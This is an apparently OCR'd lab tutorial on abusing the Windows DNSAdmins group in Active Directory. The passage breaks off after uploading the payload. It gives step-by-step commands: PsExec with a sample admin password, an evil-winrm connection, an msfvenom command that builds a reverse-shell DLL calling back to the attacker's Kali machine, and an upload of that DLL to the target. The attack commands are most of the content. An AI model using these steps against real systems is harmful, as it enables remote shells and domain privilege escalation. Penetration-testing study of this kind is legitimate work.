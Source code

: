 AD Misconfiguration, on a PC is the same it lets non admin users see folders or information that only an admin should see. 

now lets go over some of the most common AD Misconfigurations. 

## 3.1 ABUSEING DNS-ADMIN
-----
Members of the *DNSAdmins* group possess the necessary privileges to oversee user management on the Windows server. Leveraging the login credentials for the Admin user, we utilize tools such as **WinRM** to surreptitiously load a malicious DLL file. This DLL file enables us to establish a netcat reverse shell, thereby granting us unrestricted access to the server. Subsequently, we can proceed to add a new user to the admin group.

First thing we will need to do is enable `Enable-PSRemoting` with **PsExec** tool. form a windows machine. 

1. Open *PowerShell* as admin
2. Change directory with the *cd* command to the location of **PsExec** 
3. Run the following from *PowerShell*
```powershell
.\PsExec.exe \\192.168.10.1 -u Administrator powershell
```
4. Enter the admin password in this case its ***Thisisverysecret1***
![[Pasted image 20231222001555.png]]
> As you can see we are not logged into the admin *PowerShell*
5. Now run `Enable-PSRemoting` from the *PowerShell* window. 

Lets go back to our **Kali Linux** Machine. 

Form the our kali machine. lets start the **WinRM** Service on kali the service is called **evil-winrm**

Run the following from a Kali Linux terminal
```bash
evil-winrm -i [IP address] -u [username] -p [password]
```
> Remember to changes the Ip, username and password to your target. 
![[Pasted image 20231222002909.png]]
> keep the session open and open up a new terminal tab

Now we are going to be using **msfvenom** to create a malicious DLL
```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=80 -f dll > exploit.dll
```
> In this case we will be using the IP address of the Kali Linux Machine. which is *192.168.10.253*
> **-a** flag stands for architecture, with this we choose what architecture we will be creating the payload for
> **-p** flag stands for payload followed by the selected payload. 

after the dll has been created, we go back to our Evil-WinRM sessions, to upload it. 
```powershell
upload /path/to/exploit.dll /path/to/remote/destination
```
> In my case i uploaded the .dll to the desktop. 
![[Pasted image 20231222020630.png|500]]
